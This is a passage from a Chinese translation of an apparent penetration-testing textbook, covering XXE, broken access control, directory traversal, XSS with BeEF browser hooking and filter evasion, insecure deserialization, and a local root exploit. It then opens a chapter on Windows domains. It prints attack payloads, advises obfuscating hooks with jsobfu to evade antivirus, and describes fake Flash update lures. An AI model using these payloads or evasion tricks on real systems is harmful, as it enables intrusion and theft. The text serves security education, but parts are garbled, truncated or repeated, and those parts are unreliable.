你应该检查 Web 应用程序通过 80 端口发送了哪些信息。通常情况下，不应该有——也许是一个初始的 HTTP 302 重定向。你绝对不应该通过明文 HTTP 发送用户名、密码、会话令牌或任何隐私数据，因为流量可以被网络中合适位置的任何人拦截并读取。

使用 SSLscan 和 Nmap 脚本等工具在此起着作用。尽管应用程序正在对流量进行加密，但通常存在使用旧版本协议和实现的情况，应该检查它们是否可以被已知漏洞进行利用。软件类型和版本信息也可以被视为潜在的敏感信息，因为它们允许攻击者轻而易举地对软件进行已知漏洞概分析，应尽可能从应用程序中抑制。

## XML 外部实体

Web 应用程序经常接受以 XML 形式来自用户的内容，例如添加博客文章或待售产品。如果应用程序解析 XML 且解析器没有经过安全配置，那么对于任何执行此类操作的应用程序来说都存在非常严重的风险。实体（Entity）是 XML 中的一个概念，可以存储数据。XML 外部实体（XXE，外部通用/参数解析实体的缩写）是指不存在于 XML 文档本身中的实体。外部实体可以用于指定底层 Web 服务器上的文件，如果攻击者有方法利用 XML 调用漏洞的 Web 应用程序，则可能读取发送主机上的敏感文件。以下是一个用于 Web 应用程序读取系统 `/etc/passwd` 文件的 XML 示例：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

想象一下，如果我们将此 XML 内容发送到接收 XML 请求并解析它们的 Web 应用程序的 POST 请求体。如果解析器启用了外部实体

## CVE-2014-3660

CVE-2014-3660 影响 Drupal，由于 Drupal 使用的解析器存在问题，允许加载外部实体。这可以通过 Drupal CMS 的非身份用户完成，且可以读取敏感文件，包括 Drupal 的 `settings.php` 文件。

# 第 12 章 - Web 应用程序

访问实验室 Web 应用程序接受 XML 的部分。在特定情况下，它在主页上。使用 Burp Suite 的拦截器（Interceptor）拦截浏览器的请求，你会看到你有一个目标为 `/jq-xml/node/2` 的 GET 请求。右键点击请求并选择“发送到 Repeater”（Send To Repeater）。从这里，你可以发送稍作修改的请求，查看 XML 如何工作以及如何发现此漏洞。

> **注意** 如果你在请求头中有来自之前活动的 Cookie，那么在发送之前从请求中删除它们是一个好主意。

注意当你从 Repeater 向应用程序发送 GET 请求时，你会收到一个包含 `Content-Type` 头部的响应：`application/xml`。该响应的内容确实是 XML——只需查看响应的正文即可。

你现在应该尝试向服务器发送一些 XML，看看它是否会返回 XML 响应。在尝试此之前，通过编辑 Repeater 中的方法将请求类型从 GET 更改为 POST。

有时将 POST 请求发送到 GET 请求会导致应用程序无意中暴露信息。通常情况下，应用程序应该允许 GET 请求获取信息，并允许 POST 请求提交可能对应用程序后端状态产生影响的信息。应用程序接受 POST 请求 XML 是典型的。你现在可以尝试发送请求，但你会收到一个错误消息。相反，通过添加 `Content-Type` 头部将请求的内容类型指定为 `application/xml`。再次发送请求，但这次将 URL 更改为 `/jq-xml/node` 看看发生什么。请求再次出现问题，但这次你收到了一些帮助你的信息。返回了带有空 `result=node` 结果的 XML。

复制响应中发送的原始部分——XML 的第一行（`<?xml version="1.0" encoding="utf-8"?>`）并尝试发送它。这次，你将得到一个返回更多信息的响应。应用程序正在等待一个 `<start>`，即 Web 应用程序的文档。

# 访问控制失效

Web 应用程序有时允许用户访问他们不应该访问的区域。这与身份验证失效不同。应用程序的身份验证部分可能运行完美，但在登录后你能够查看其他用户的内容，这意味着没有执行访问检查。

访问控制失效的基本示例是一个应用程序允许用户通过更改 URL 查看另一个用户的信息。想象如下的 HTTP 请求：

```http
GET /transaction_history.aspx?accountId=10204 HTTP/1.1
```

`accountId` 参数指向特定账户，此请求将根据提供的 `accountId` 显示交易列表。如果除了账户所属的用户之外，其他人也能访问同一个页面，那么就存在问题。可能登录不同的用户——例如，你自己的账户——并查看其他用户的交易。

这种简单的错误会发生。2019 年，英国的一家主要银行 TSB 升级了其在线银行系统。该过程进展并不顺利，报告了几个问题。一些客户报告说，登录后他们可以看到不属于自己的银行交易和余额。这在甚至不需要尝试破解其他用户账户的情况下都是可能的。这发生在一家口碑良好的英国银行的生产系统上，因此它无疑可能发生在任何规模的组织中。


# 应用程序权限检查

应用程序应该检查每个用户是否有正确的权限或许可来访问给定的对象，无论它是文件还是信息页面。

# 目录遍历

实验室 Web 应用程序包含一个非常好的目录遍历漏洞供你检查。要检查的 URL 与我们之前探索 SQL 注入的相同（`http://TargetIP/ponyapp?id=1&image=derpy.py`）。你在 `id` 参数处看到了 SQL 注入漏洞，但 `image` 参数呢？你之前过滤掉它了吗？`image` 参数看起来被用于指定文件名，使其成为测试目录遍历的理想候选。我们在较早的章节中探索了目录攻击——这种漏洞允许你通过 `../` 访问预期路径字符串之外的内容。你可以使用浏览器发现此漏洞。首先使用浏览器的功能检查网页源码——HTML——并检查此页面图像的源代码。你可以通过右键点击图像并从右键菜单中选择“检查元素”来做到。

## 第 12 章 Web 应用

（如果你正在使用 Firefox）。你会发现在开始和结束标签之间是 base-64 编码的数据——这就是正在显示的图像。尝试替换 URL 中的 `derpy.png`（在浏览器的地址栏中），然后检查网页的源代码——HTML。你会发现该文件是无效的。在 URL 中添加 `../../../../../etc/passwd` 并检查源代码，直到你看到应用程序返回了数据，你应该使用 Burp Suite 对数据进行解码。通过使用 Burp Suite 解码数据，你会发现你能够读取 `/etc/password` 文件！你也可以使用 Python 和 `base64` 模块将数据解码到交互式终端中。你可以使用以下命令，但将 `<data>` 替换为之前的示例。

```python
base64
```

# 安全配置错误

已经讨论过配置错误。这是一种可以影响任何系统的问题，而且不限于 Web 应用程序。在涉及 Web 应用程序时，这个问题尤为严重，因为它们通常是面向公众的，因此暴露风险更高。例如，搜索引擎可以索引不需要的窗口，这允许攻击者访问用户账户或底层文件系统。对于 Web 应用程序，你还必须考虑基础设施——例如 `Apache` 或 `Nginx` 等 Web 服务器，以及关联服务（如 `RDBMS`，这些可能存在配置错误）、应用程序所基于或使用的框架或 CMS（`.NET`、`Tomcat`、`Spring`）或 CMS（`WordPress`、`Drupal` 或 `Joomla`）。你需要识别是否在使用了默认凭据。不要低估用户名和密码的力量。在大多数可用的 CMS 中，你会发现它们在安装到 Web 服务器后会遗留安装脚本、日志和配置文件，负责安装的人可能忘记了删除它们。此外，为测试正在测试的特定 Web 应用程序编写的自定义代码可能是一个遗留激活并暴露的调试用户或默认用户。

# 错误页面和堆栈跟踪

Web 普通用户在遇到 HTTP 500 错误页面时通常会感到沮丧，但对于黑客来说，这是一个极好的消息，因为它可能导致有趣的漏洞。有时 HTTP 500 页面完全不会提供任何关于具体错误的信息，但在某些情况下，可能会看到大量信息。你可能会看到一些基础信息，如软件和版本详情，或者详细说明服务端问题的完整堆栈跟踪。在某些情况下，你可能触发了 500 错误，并在错误消息本身中看到了凭据。HTTP 500 错误表明服务器端出了问题，应该进一步调查，以确保它们没有显示出 SQL 注入漏洞或类似的缺陷。

# 跨站脚本

跨站脚本 (XSS) 是一种允许将恶意 JavaScript 注入 Web 应用程序并使其在受害者的浏览器中运行的漏洞。涉及 XSS 时，受害者分为两类：受影响的 Web 应用程序及其用户。XSS 的关键特征是注入的是客户端代码；该代码运行在用户的浏览器中，而不是 Web 服务器中。这意味着你不能使用 XSS 从 Web 应用程序的文件系统中读取文件（至少单靠它不能），但它可以用于从用户机器上读取数据（如会话 cookie）。XSS 非常普遍且广泛，并且取决于可能存在的其他问题和因素，它并不总是像应该那样被严肃对待；这些因素可以用来窃取用户的凭据、cookie 或会话数据；记录击键；甚至以受害者的代价窃取加密货币。

XSS 有两种主要形式：反射型（reflected）和存储型（stored）。反射型 XSS 发生在用户点击链接，该链接将他们带到 Web 应用程序上的某个页面，在该页面执行了恶意 JavaScript 或渲染了 HTML 时。JavaScript 或 HTML 实际上是攻击者提供给目标用户的链接的一部分。它会被反射回用户，并且仅在点击链接时发生。

存储型 XSS 发生在攻击者通过滥用应用程序的某些输入（例如评论表单或用户注册表单）对应用程序进行半永久更改时。攻击者的代码实际上存储在应用程序中，并影响后续对同一页面或应用程序的访问。这意味着可能利用完全合法且信誉良好的网站在用户不知情的情况下利用他们。攻击者实际上可以利用网站或公司的品牌和信任度——即他们辛苦赢得的好感——因为人们会盲目点击知名品牌的链接。

存储型 XSS 通常认为比反射型 XSS 更危险，因为它更改了 Web 应用程序的数据。不过，其他因素也在起。重要的是根据一组固定标准找出漏洞可能造成的损害及其是否危险。考虑以下示例：反射型 XSS 攻击窃取会话数据（允许攻击者冒充合法用户），与在用户访问页面时显示猫的图片的存储型攻击相比，哪一个更危险？

## 第 12 章 Web 应用程序

Kamkar 拥有百万 Myspace 朋友，同时也面临三年的缓刑、10,000 美元的罚款和 720 小时的社区服务。你可以在 samy 了解更多关于这项工作（以及 Kamkar 最近的优秀工作）。

与 Twitter、LinkedIn 和 Facebook 等现代社交 Web 应用程序不同，Myspace 允许用户使用自己的 HTML 代码（包括客户端脚本）在很大程度上自定义他们的个人页面。相比之下，Facebook 的每个用户个人资料看起来都极其相似，没有添加自定义代码的空间。

寻找 XSS 漏洞可能相当简单。许多自动化工具通过在可能的地方提交输入并在响应中反射它们，可以很好地发现这些漏洞。如果恶意字符也被反射出来，那么这是存在 XSS 的良好迹象。早些，你检查了代码实验室的 Web 应用程序以及一系列有趣的功能，其中包括搜索功能。再次查看搜索功能。首先，在搜索框中输入一个不太可能出现在应用程序正常响应任何地方的字符串；例如：`omn3-12345`。将此字符串复制到剪贴板，以便稍后粘贴。这可以是任意字符字符串——你只需要找出你的输入是否以某种方式被反射。在提交搜索查询后（你可以在不启用 Burp 拦截的情况下执行），你将收到一个响应。你从渲染的网页看到你输入的字符串没有包含在内。也许它包含在页面的源代码中？

查看页面源代码，然后使用组合键 `Ctrl+F` 调查找框。将你的字符串粘贴到搜索框中，查看它是否出现在页面的任何地方。你会发现它出现了。这意味着该 Web 应用程序正在反射你的输入——这是第一步。现在让我们看看其他字符是如何被反射的。你可以向此页面注入一些 HTML 并让其反射回来，从而改变页面的外观。

这一次，将你的字符串封装在双引号和小于符号中，如下所示：

```html
<html></html>
```

这种做法的思路是你想更改显示的 HTML，你可以从初始响应中看到，有一个 HTML 元素可以用 `"` 关闭。

再次点击网页上的搜索按钮，如果你运气好，结果结果页面加载了，你可能会看到某些内容（你的字符串）作为一个新标题出现在页面上。攻击没有成功。为什么呢？再次查看源代码并像以前一样找到你的字符串。

字符串在那里，但你编码的潜在危险字符完全按照输入的方式返回了。这正是一个 Web 应用程序应该做的。无法向 Web 应用程序中注入 HTML。如果大于号和小于符号（`&<`）没有被渲染，你就无法注入一对包含 JavaScript 代码的 `<script>` 标签，因此任何有意义的 XSS 都是可能的（尽管你很快就会学到其他注入 JavaScript 的方法）。你被击败了，但不要放弃！

你只测试了一个表单框，还有更多需要检查。早些时候你遇到一个似乎允许全 HTML 输入的区域。尝试输入你的字符串或这里的一些变体：`<h1>"What about typing" Ponies are awesome-h1:0wn3dc/h1?`

如果你点击弹出（或提交），你将看到那个水池的意图被接受了——但这肯定不是问题，对吧？毕竟，应用程序声称它接受 HTML，尽管这仍然可以用于注入恶意内容和消息。下一步是看你是否可以在评论字段中插入 JavaScript。尝试以下操作：

```html
<script>alert("Hello World")</script>
```

你看到的那个弹出框是你刚刚添加的 JavaScript alert。如果你保存了它，任何查看该页面或评论的人都会看到相同的弹出框。这与 Web 应用程序允许这种行为的原始目的不同。如果你能让 alert 框出现，那么你就可以做更多事情。这是一个持久存储型 XSS 攻击的示例。但这有什么大吗？你能够在自己的浏览器中运行一些简单的 JavaScript。但请记住，这个页面代表一个公共页面。访问该页面的任何人也会在浏览器中运行该 JavaScript。

现在你已经识别了一个 XSS 漏洞，你应该看到用它可以造成多大的破坏。如果你能向客户报告人们可以留下“Hello world”弹出窗口，他们可能不会太重视这个问题。

记住，受影响的用户或受害者也可能是公司的员工或某种类型的管理员，他们以特权用户的身份登录了 Web 应用程序。

# 浏览器利用框架 (Browser Exploitation Framework)

浏览器利用框架 (BeEF)(beefproject.com) 是一个旨在教你所有关于 XSS 及其影响的项目。你可以在 Kali linux 上使用 `beef-xss` 安装 BeEF，或者你可以按照项目在 github.com/beefproject/beef/wiki/Installation wiki 上的说明进行安装。建议从源码安装，以充分利用该框架的作用。假设你使用的是 Kali 版本的 BeEF（它更容易安装并快速运行），在终端中以 root 用户身份运行 `beef-xss` 命令（或使用 `sudo`）。最初，BeEF 会提示你为默认用户 `admin` 设置密码。

> **警告**：注意，如果你在面向互联网的 Web 服务器上安装和配置 BeEF——而不仅仅像我们的示例中那样针对你自己——防病毒软件仍然会将你的组件识别为恶意软件。这就是为什么你需要在面向互联网的 Web 服务器上安装和配置 BeEF——而不仅仅像我们的示例中那样针对你自己——如下如下：

- URL: `http://127.0.0.1:3000/ui/panel`
- Hook: `<script src="http://127.0.0.1:3000/hook.js"></script>`
- Example: `<script src="http://127.0.0.1:3000/hook.js"></script>`

默认情况下，BeEF 运行在 localhost `127.0.0.1:3000`。你可以从你自己操作系统的浏览器（而不是 Kali Linux）访问挂钩的实验室。这可能帮助你看到位于 Kali 虚拟机上的攻击者与受害者之间的区别。这再次是你，但在一个不同的主机上——例如你的 Windows、macOS 或 Ubuntu 宿主机。

你提供给用户加载的 `hook.js` 文件是一段允许你（攻击者）、BeEF 实例和受害者用户浏览器之间通信的代码。你现在已经挂钩了了自己的浏览器，但如果你在现实中尝试利用这一点，那么当他们访问受攻击的 Web 页面时，你将看到更多被挂钩的浏览器出现。这就是为什么你需要在面向互联网的 Web 服务器上安装和配置 BeEF——而不仅仅像我们的示例中那样针对你自己。


## 448 第 12 章 Web 应用



图 12.27：被 BeEF Hook 的浏览器

现代杀病毒软件可以检测到 BeEF，因此如果你在进行真实世界的测试，且这可能成为阻碍你攻击的问题，你可能需要自定义钩子（hook）或使用 gem `jsobfu` 来混淆并隐藏恶意 JavaScript（如 BeEF 代理）的意图。详细文档和该 gem 可以从 github.com/rapid77/jsobfu 获取。

如果你在为客户编写报告，那么展示攻击示例可以更容易让外行人士理解风险，这实际上是为攻击构建了一个概念验证（PoC）。

点击浏览器将带你进入当前的浏览器标签页。如果你点击标签页第二行中的“Commands”（如图 12.28 所示），你将进入模块树（Module Tree）。尝试运行一个 Adobe Flash 恶意软件的社会工程模块。当你回到网站时，你应该能看到攻击成功的确认！

一旦你 Hook 了用户的浏览器，就可以寻找方法通过缺失的补丁或使用 Metasploit 的 `browser_autopwn` 模块来利用该浏览器。这需要你进行大量的配置，我们建议你阅读 BeEF 文档，以充分利用该工具及其与 Metasploit 的集成。

## 第 12 章 Web 应用



### 当前浏览器命令

如果你还没有让某些东西运行起来，尝试使用虚假的 Flash 更新。这将在点击时发送一个伪造的更新，下载文件或将用户引导到你选择的网站。你在现实生活中见过类似的内容；它确实被用于诱导人们离开受信任的网站并进入恶意网站，并在那里会被提示下载恶意软件，从而完全接管受害者的机器。

XSS 可以与其他攻击或方法（如网络钓鱼）结合使用。攻击者的优势在于其看起来源自用户已知并信任的网站，有效地利用该网站的声誉来提高网络钓鱼攻击的成功率。XSS 会影响网站的用户（包括员工），并对公司本身造成声誉损害。如果员工的系统被劫持，情况会糟糕得多，因为攻击者有潜力突破外部边界，然后攻击内部网络或访问敏感数据。

### 关于 XSS 的更多信息

我们已经向你展示了一个单一 XSS 漏洞以及利用它的某些方法。作为一名伦理黑客，你应该在测试 Web 应用时发现每一个此类漏洞。全自动工具在这方面表现非常出色，但你可以通过一些操作来实现过程的半自动化。记住，我们检查的不仅仅表单；任何我们可以注入自定义输入的地方——任何参数或 cookie——任何服务器可能会使用并重新显示的任何内容。首先，你应该检查输入是否被反射，然后检查你的输入是否经过了过滤（sanitized）。

然后，检查多个入口点的方法是使用可以帮助你模拟 Burp Suite Active Scanner 行为的工具。回到那个搜索表单，拦截请求并发送到 Intruder。你可以移除添加的 BeEF cookie；下一步完全不需要 BeEF，如果你愿意，可以关闭它，尽管这可能会导致你的浏览器变慢。注意，该请求是一个 POST 请求，你可以更改 HTTP 请求头作为入口点，由于这些会被反射，Intruder 会自动为你检测入口点。目前，只需使用默认设置。

如果 Burp Suite 没有获取任何有效负载（payloads），你需要自己添加。你应该编写一组如果被反射就会导致 JavaScript 执行的字符串。`<script>JavaScript</script>`并不是实现 XSS 的唯一方法。使用 Intruder 中的 Start 按钮配合添加的有效负载，可以反复发送请求并更改请求的值。这是一种以半自动化方式测试特定参数是否存在各种漏洞的方法。

### XSS 过滤器绕过

幸运的是，你不需要自己研究负载字符串列表。有很多免费资源可以使用。例如，查看 OWASP 的 [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_evasion_Cheat_sheet.html)你可以你可以将这些导入 Burp Suite，特别是导入到 Intruder。一旦你准备好列表并选择了攻击类型，就可以开始攻击。为了验证你的某些有效负载是否成功，你需要检查输出是否包含相同的字符串。要实现 XSS，你需要看到 HTTP 200 响应码；如果你得到 500 响应码，请检查其他问题，因为你的负载可能导致了严重的服务器端错误！你可以使用你喜欢的搜索引擎搜索“xss filter evasion”来寻找其他资源。一种越来越有效的 XSS 绕过方法是使用 XSS 多语语言（Polyglot），即一段 JavaScript 同时也是图像或有效的 XML。这些字符串由研究人员经常在 github 上发布和共享，他们调整并创建日益复杂的版本，以欺骗认为正在处理图像数据的应用程序，而这些数据在浏览器处理时会作为 JavaScript 执行。

这里有两个 OWASP 的有效负载，它们可以在书籍实验环境中运行。第一个会在页面上创建一个图像占位符，当鼠标悬停在其上方时，会触发警告弹出框。像之前一样，这个弹出框代码可以替换为你或恶意黑客喜欢的任何内容。这种方法使用了事件处理器，是绕过可能只匹配 `<script>` 标签的 XSS 过滤器的常用方法。正如你所见，这段代码去掉了起始和结束脚本标签 `</script>`，因此如果应用程序唯一的防御是剥离这些标签，那么它仍然存在漏洞：

```html

```

# 不安全反序列化

当系统之间进行通信时，它们通过发送序列化数据来实现。在最基础的层面上，这是一系列 1 和 0——高电压和低电压——通过电线或（无线）无线电信号发送。每种协议都构建在此基础之上。在计算机编程中，序列化是将一种数据类型或对象（其内部可能包含各种数据）转换为可以传输的位流。用于此项操作的常用高级格式是 JSON。反序列化简单来说就是相反的操作——将该位流转换回可用的对象。下文是对不安全反序列化的基础解释：当恶意黑客能够篡改序列化数据，导致接收组件在将其转换回可用形式时产生意外之外的行为，就会发生不安全反序列化。


作为应用程序的外部渗透测试员，在无法访问源代码的情况下，测试不安全反序列化并非易举之事。即使通过白盒测试获取了代码，这些漏洞也可能难以发现，因为其过程并不直观。要测试序列化漏洞，你必须能够创建一个序列化对象并发送给应用程序，或者创建一个类似于将在服务器上执行的反序列化代码。这要求你使用目标语言创建编码的对象，通常是 `Java`、`PHP` 或其他使用序列化对象的服务器端语言。你可以使用 `Yoserial` (github.com/yserial) 工具来测试不安全的 `Java` 反序列化。通过使用此类工具，你可以创建二进制大对象（序列化对象），并通过网络端口或 Web 表单发送到应用程序，然后这些对象会被反序列化，并导致代码在远程服务器上被注入并执行。这类类型的漏洞发生在序列化对象在服务器和应用程序之间传递时，或者当攻击者已知加密密钥允许其创建序列化对象时（例如在 `.NET` 应用程序中）。你可以在 `OWASP` 网站 owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data 上学习更多关于此类攻击的信息及示例。一个利用反序列化方法被广泛利用的漏洞是 `CVE-2020-0688`，它影响了 `Microsoft Exchange Server` 的多个版本，包括 `2016` 累积更新 `15` 在内的所有版本。发现 `Microsoft Exchange Server` 中用于管理和访问资源的 Web 应用程序包含 `.NET` 框架使用的静态和共享密钥。使用这些密钥，攻击者可以创建自己的序列化对象并将其传递给服务器以在 `Microsoft Exchange Server` 提供的 Web 应用程序中执行，从而允许以 `SYSTEM` 权限远程执行代码。关于此问题的详细公告以及利用步骤可以在 www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys 找到。

# 已知漏洞

正如你所看到的，公开的漏洞是一个严重的问题。`Web` 应用程序通常由许多小组件构建。它们很少是从零开始编码的，或者由一个完全理解其所用所有组件的小团队构建的。这增加了应用程序的复杂性，过时的组件很容易被包含在某处。我们指出了几个已知漏洞（`CVE-2014-3660` 和 `CVE-2014-3704`），它们影响了我们书所运行的 `Drupal` 版本。无论使用何种 `CMS` 或框架，都应该使用你到为止所探索的方法来搜索已知漏洞。在 `Web` 应用程序方面，某些 `CMS` 和框架提供了自定义工具来寻找漏洞。例如 `WPScan`，它会搜索 `WordPress` 站的已知漏洞。许多 `CMS` 允许用户为其他用户编写并提交第三方插件。你经常会发现在使用第三方插件，你应该寻找扫描器来识别它们。

作为 `JavaScript` 的客户端代码会使用 `jQuery` 等库，这些库会暴露其信息并且经常过时。`AngularJS` 和 `Node.js`（它们都使用 `JavaScript`）经常会遇到这种情况。你经常会发现在使用第三方插件，你应该寻找扫描器来识别它们。

第三方软件包或工具安装到服务器上时可能包含漏洞。该二进制文件对 `root` 用户拥有 `Set-UserID` 权限，并且容易受到缓冲区溢出攻击，该攻击可用于提升权限。你需要编译并将下载的 exploit `xclm-exploit.c` 在远程主机上运行；记住，在尝试任何本地权限提升攻击之前，务要保存你的配置并创建一个伪 `TTY`。你可以使用此命令来编译并运行该利用程序：

```
$ gcc xclm-exploit.c -o xclm-exploit
./xclm-exploit
# Microchip XC License Manager: <= v2.2 local root exploit
# id
uid=0 (root) gid=33 (www-data) groups=33 (www-data)
```

## 总结

在测试 `Web` 应用程序时，你不仅仅是在测试某个已知软件的已知漏洞。是的，应用程序会使用已知组件——`Web` 服务器、数据库、框架、可能还有带有第三方插件的 `CMS` 以及 `JavaScript` 代码——但它还包含无人测试过的自定义代码。因此，你需要对应用程序的预期工作方式有一定的了解，并找到可以进一步调查的区域。你需要寻找特定类型的缺陷和漏洞，而不仅仅是单一漏洞的实例。

你现在已经了解了 `OWASP Web` 应用程序前 `10` 大风险。这是你需要不断跟进的内容。记住，`OWASP Top 10` 中的每一项都是包含许多不同类型漏洞和弱点的领域，而且 `OWASP Top 10` 绝不是详尽——它对于黑客和开发者来说都是一个很好的起点。

渗透 `Web` 应用程序时最重要且实用的工具之一就是谦虚的 `Web` 浏览器。当与 `Burp Suite` 或 `ZAP` 等拦截代理工具结合时，你的 `Web` 浏览器将提供通过手动方法发现关键漏洞和常见缺陷的手段。

虽然从发现到利用的手动操作方法来理解常见的缺陷和漏洞很重要，但一旦你具备了这种理解，在时间受限的典型任务环境中，使用自动化工具测试 `Web` 应用程序几乎是必不可少的。在后台选择性扫描工具的同时使用手动技术，可以让你充分利用时间。记住，任何通过自动化工具或脚本发现的缺陷都需要经过验证和理解，因为你需要向客户传达该漏洞的风险，并建议修复措施。

记住不断尝试新工具，并寻找能帮助你测试特定应用程序的工具，例如为测试或扫描特定框架设计的工具。

最后，当你发现客户的 `Web` 应用程序充满了安全漏洞时，不要对你的客户或你自己组织的成员过于严厉。与他们合作修复问题，运用巧妙的说服技巧，在评估应用程序时解释你发现的内容，而不要居高临下。`Web` 应用程序占据了人们日常生活的巨大份额，考虑到它们处理着大量的个人和敏感数据，其安全性持续改进至关重要。然而，如果只是发现漏洞，那是不会实现的。你必须向能够修复问题的人传达它们所带来的风险，并提出可行的解决方案。

# 第 13 章

# Microsoft Windows

我们在本章中查看最后一个主机——`Microsoft Windows Server` 主机——它可能出现在内部网络中。由于到目前为止，我们主要关注的是类 `UNIX` 主机，尽管我们涵盖的技术可以应用于 `Windows` 主机，但仍有一些需要考虑的重要差异。

`Microsoft Windows` 最初作为桌面操作系统（`OS`）诞生，其图形用户界面（`GUI`）是它的主要特性。`Windows` 最初针对的是个人用户而非大型企业，现在（以 `Windows Server` 的形式）被组织用作 `Internet` 和连接服务的基石。`Windows Server` 同时用于内部网络和外部服务（例如 `Web` 或邮件服务器），就像 `Linux` 或 `UNIX` 一样。`Windows Server` 可以以无头模式部署——即没有 `GUI`——并完全通过名为 `PowerShell` 的脚本语言进行维护。

组织运行 `Windows Server` 以及基于 `Windows` 的工作站，并将它们排列在一个被称为“域（domain）”的网络中。`Windows` 域的设计允许工作站上的用户登录一次网络，即可无缝访问资源（如文件和打印机），而无需每次都对不同的主机进行身份验证。

想象一下成千上万的用户配置了不同的权限来访问各种网络服务。在渗透 `Windows` 和域时，你不应该只从主机的角度考虑，而应该考虑由各种不同角色的服务器和访问它们的工作站组成的网络。

# 渗透 Windows vs Linux

你已经学习了如何渗透 `Linux` 系统，你目前所学到的技能可以转移到 `Windows` 系统。然而，方法上存在一些关键差异，我们会在阅读过程中指出这些差异。你已经看到单个主机在内部网络和互联网上的样子。涉及到 `Windows` 环境时，你需要考虑整个域——而不仅仅是单个主机。`Windows` 命令行 `shell` 虽然符合 `POSIX` 标准，但使用的导航命令与 `bash` 或 `sh` 不同。`PowerShell` 也提供了一个 `shell`，并带有一种强大的面向对象的脚本语言，提供了更熟悉的类 `UNIX` 体验！

# 域、树和森林

在企业环境中使用，`Windows` 主机通常被排列在一种被称为“域（domain）”的网络中。图 13.1 显示了域的基本示例。`Windows` 域组织组织与 `DNS` 类似，具有如 `WIN2019PDC.HACKERHOUSE.INTERNAL` 等主机名。


图1：显示各种主机和服务的 `Windows` 域

多个共享相同命名空间的域（例如 `SHAREPOINT.HACKERHOUSE.INTERNAL` 和 `EXCHANGE.HACKERHOUSE.INTERNAL`）形成一个域树（domain tree）。域树在顶部有一个根域（或父域），其下方有子域，如图 13.2 所示。


图2：`Windows` 域树

树被排列成“森林（forests）”。森林由不共享相同名称但组合在一起的树组成。森林可能包含代表跨国公司不同地理位置的域。这种森林允许在一个域中具有正确权限的用户访问另一个域的服务。可能会部署虚拟专用网络（`VPN`）来方便用户在域之间移动。请参图 13.3 森林的基本表示。

在渗透 `Windows` 网络时，你的目标是接管位于层次结构顶部的机器——`Active Directory` 域控制器（`AD DC`）。这些是 `Windows` 网络中重要的系统，提供了管理网络资源所需的许多安全功能。`Active Directory`（`AD`）是用于管理域内网络用户、组、权限、计算机和资源的 `Microsoft` 服务的总称。

域控制器的主要职责。然而，人们经常域控制器上运行额外的服务，这违背了最佳实践，你应该始终寻求建议客户尽可能减少关键域管理系统的攻击面。

